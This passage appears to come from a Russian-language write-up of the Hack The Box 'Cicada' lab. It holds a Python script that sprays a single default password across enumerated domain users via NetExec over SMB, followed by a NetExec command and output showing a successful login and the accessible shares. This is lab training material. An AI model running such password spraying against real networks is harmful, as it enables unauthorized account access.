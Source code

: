 ```
```python
import re
import subprocess
import os

with open('cicada.txt', 'r') as file:
    output = file.read()

user_pattern = r"CICADA\\([a-zA-Z0-9._\-\s]+)(?=\s\(\w+\))"
users = re.findall(user_pattern, output)

password = "Cicada$M6Corpb*****"

os.chdir('/home/Hexada/app/pentesting-tools/NetExec/nxc')

for user in users:
    wait = "[ * ]"
    success = "[ + ]"
    fail = "[ - ]"
    unexpected = "[ ? ]"

    print(f"account login to {user} account {wait}")
    
    result = subprocess.run(
        ["poetry", "run", "python", "netexec.py", "smb", "cicada.htb", "-u", user, "-p", password, "--shares"],
        capture_output=True, text=True
    )
    
    success_pattern = r"\[\*\] Enumerated shares"
    failure_pattern = r"\[-\] Error enumerating shares"

    if re.search(success_pattern, result.stdout):
        print(f"successful login to {user} account {success}")
    elif re.search(failure_pattern, result.stdout):
        print(f"failed login to {user} account {fail}")
    else:
        print(f"Unexpected result for {user} {unexpected}")
```

На основе вывода скрипта, мы узнаем что такая учетная запись существует
```
account login to michael.wrightson account [ * ]
successful login to michael.wrightson account [ + ]
```

Давайте попробуем в неё войти и посмотреть к каким шарам у нас есть доступ
```
Hexada@hexada ~/app/pentesting-tools/NetExec/nxc$ poetry run python netexec.py smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*****' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*****
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
```